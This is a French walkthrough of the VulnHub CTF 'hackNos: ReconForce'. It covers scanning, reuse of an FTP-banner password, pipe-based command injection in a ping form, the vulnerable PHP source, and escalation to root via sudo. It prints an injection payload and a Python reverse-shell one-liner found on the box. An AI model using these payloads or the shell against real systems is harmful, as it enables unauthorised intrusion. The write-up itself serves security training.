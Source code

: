```yaml
---
title: "Solution du CTF hackNos: ReconForce de VulnHub"
tags: [CTF,VulnHub]
---
```


[hackNos: ReconForce](https://vulnhub.com/entry/hacknos-reconforce-v11,416/) est un boot2root mis en ligne en janvier 2020 sur *VulnHub*.

## Sean Reconnery

Une fois n'est pas coutume je commande par un Nuclei :

```console
$ nuclei -u http://192.168.56.222/

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v2.9.4

                projectdiscovery.io

[INF] Current nuclei version: v2.9.4 (outdated)
[INF] Current nuclei-templates version: 9.5.0 (latest)
[INF] New templates added in latest release: 62
[INF] Templates loaded for current scan: 5958
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 1059 (Reduced 1000 Requests)
[apache-detect] [http] [info] http://192.168.56.222/ [Apache/2.4.41 (Ubuntu)]
--- snip ---
[openssh-detect] [tcp] [info] 192.168.56.222:22 [SSH-2.0-OpenSSH_8.0p1 Ubuntu-6build1]
[ftp-anonymous-login] [tcp] [medium] 192.168.56.222:21
```

Ici ça tombe bien, car la VM n'écoute pas sur des ports exotiques.

Je me connecte au FTP pour voir ce qu'il a dans le ventre et un entête semble m'offrir un mot de passe :

```console
$ ftp anonymous@192.168.56.222
Connected to 192.168.56.222.
220 "Security@hackNos".
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
229 Entering Extended Passive Mode (|||10218|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        117          4096 Jan 06  2020 .
drwxr-xr-x    2 0        117          4096 Jan 06  2020 ..
226 Directory send OK.
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||54726|)
550 Permission denied.
```

Le FTP est vide et je ne peux rien déposer dessus.

Sur le site web je trouve un lien vers `/5ecure/` qui demande des identifiants.

Je réussis à passer l'authentification avec `admin` / `Security@hackNos`.

Je tome alors face à un formulaire qui sent l'exécution de commande à plein nez :

```html
<form name="ping" action="out.php" method="post">
	<p>
		<h6>Enter an IP address:<h6>
		<input type="text" name="ip" size="30">
		<input type="submit" name="Submit" value="Ping_Scan">
	</p>
</form>
```

`Wapiti` va nous aider à mettre les choses au clair :

```console
$ wapiti --auth-cred "admin%Security@hackNos" --auth-method basic -u http://192.168.56.222/5ecure/ -m exec,file -v2 --color

     __      __               .__  __  .__________
    /  \    /  \_____  ______ |__|/  |_|__\_____  \
    \   \/\/   /\__  \ \____ \|  \   __\  | _(__  <
     \        /  / __ \|  |_> >  ||  | |  |/       \
      \__/\  /  (____  /   __/|__||__| |__/______  /
           \/        \/|__|                      \/
Wapiti 3.1.7 (wapiti-scanner.github.io)
[+] GET http://192.168.56.222/5ecure/ (0)
[+] POST http://192.168.56.222/5ecure/out.php (1)
        data: ip=default&Submit=Ping_Scan
[+] GET http://192.168.56.222/5ecure/out.php (1)
[*] Saving scan state, please wait...
This scan has been saved in the file /home/sirius/.wapiti/scans/192.168.56.222_folder_c61c5d48.db
[*] Wapiti found 3 URLs and forms during the scan
[*] Existing modules:
         backup, brute_login_form, buster, cookieflags, crlf, csp, csrf, drupal_enum, exec, file, htaccess, htp, http_headers, log4shell, methods, nikto, permanentxss, redirect, shellshock, sql, ssl, ssrf, takeover, timesql, wapp, wp_enum, xss, xxe

[*] Launching module exec
[+] GET http://192.168.56.222/5ecure/ (0)
[+] GET http://192.168.56.222/5ecure/out.php (1)
[+] POST http://192.168.56.222/5ecure/out.php (1)
        data: ip=default&Submit=Ping_Scan
[¨] POST http://192.168.56.222/5ecure/out.php (1)
        data: ip=%3Benv%3B&Submit=Ping_Scan
[¨] POST http://192.168.56.222/5ecure/out.php (1)
        data: ip=%7Cenv&Submit=Ping_Scan
---
Command execution in http://192.168.56.222/5ecure/out.php via injection in the parameter ip
Evil request:
    POST /5ecure/out.php HTTP/1.1
    host: 192.168.56.222
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    content-type: application/x-www-form-urlencoded
    referer: http://192.168.56.222/5ecure/
    content-length: 26
    authorization: Basic YWRtaW46U2VjdXJpdHlAaGFja05vcw==
    Content-Type: application/x-www-form-urlencoded

    ip=%7Cenv&Submit=Ping_Scan
---
```

Donc l'injection de commandes est possible, mais via les pipes uniquement.

Je peux faire afficher le code du script `out.php` pour en savoir plus :

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}
```

Le code retire différents caractères qu'il juge dangereux. Le retrait des tirets rend impossible de passer des options à la plupart des commandes.

Pour connaître l'architecture du système je peux utiliser la commande `arch`  qui m'indique `x86_64`. Je peux alors rapatrier un `reverse-ssh` pour cette architecture et le mettre en écoute.

## Repassword

Une fois sur le système je trouve un flag dans le dossier de l'utilisateur `recon`.

```console
www-data@hacknos:/$ cat /home/recon/user.txt 
###########################################

MD5HASH: bae11ce4f67af91fa58576c1da2aad4b
```

Et aussi un script qui lui appartient dans `/var/opt` :

```console
www-data@hacknos:/$ find / -user recon -ls 2> /dev/null 
   405659      4 drwxr-xr-x   4 recon    docker       4096 Jan 10  2020 /home/recon
   399419      0 -rw-------   1 recon    docker          0 Jan 10  2020 /home/recon/.bash_history
   405660      4 -rw-r--r--   1 recon    docker       3771 May  5  2019 /home/recon/.bashrc
   405661      4 -rw-r--r--   1 recon    docker        220 May  5  2019 /home/recon/.bash_logout
   405718      0 -rw-r--r--   1 recon    docker          0 Jan  6  2020 /home/recon/.sudo_as_admin_successful
   407282      4 drwx------   2 recon    docker       4096 Jan  6  2020 /home/recon/.cache
   407280      4 drwx------   3 recon    docker       4096 Jan  6  2020 /home/recon/.gnupg
   405662      4 -rw-r--r--   1 recon    docker        807 May  5  2019 /home/recon/.profile
   523002      4 -rwxrwxrwx   1 recon    www-data      220 Jan 10  2020 /var/opt/python.py
www-data@hacknos:/$ cat /var/opt/python.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.104",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

Ce script est-il appelé via une crontab ? Je l'ai modifié pour qu'il se connecte à mon IP, mais je n'ai rien reçu.

Finalement j'ai testé les identifiants `recon`  / `Security@hackNos` via `su` et c'est passé.

L'utilisateur a des permissions `sudo` lui permettant de faire tout ce qu'il souhaite :

```console
recon@hacknos:/tmp$ sudo -l
[sudo] password for recon: 
Matching Defaults entries for recon on hacknos:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User recon may run the following commands on hacknos:
    (ALL : ALL) ALL
recon@hacknos:/tmp$ sudo su
root@hacknos:/tmp# cd /root
root@hacknos:~# ls
root.txt  snap
root@hacknos:~# cat root.txt
     $$\          $$$$$$$\                                          
     \$$\         $$  __$$\                                         
$$$$\ \$$\        $$ |  $$ | $$$$$$\   $$$$$$$\  $$$$$$\  $$$$$$$\  
\____| \$$\       $$$$$$$  |$$  __$$\ $$  _____|$$  __$$\ $$  __$$\ 
$$$$\  $$  |      $$  __$$< $$$$$$$$ |$$ /      $$ /  $$ |$$ |  $$ |
\____|$$  /       $$ |  $$ |$$   ____|$$ |      $$ |  $$ |$$ |  $$ |
     $$  /        $$ |  $$ |\$$$$$$$\ \$$$$$$$\ \$$$$$$  |$$ |  $$ |
     \__/         \__|  \__| \_______| \_______| \______/ \__|  \__|
                                                                    
                                                                    
                                                                    

MD5HASH: bae11ce4f67af91fa58576c1da2aad4b

Author: Rahul Gehlaut

WebBlog: www.hackNos.com

Twitter: @rahul_gehlaut
```
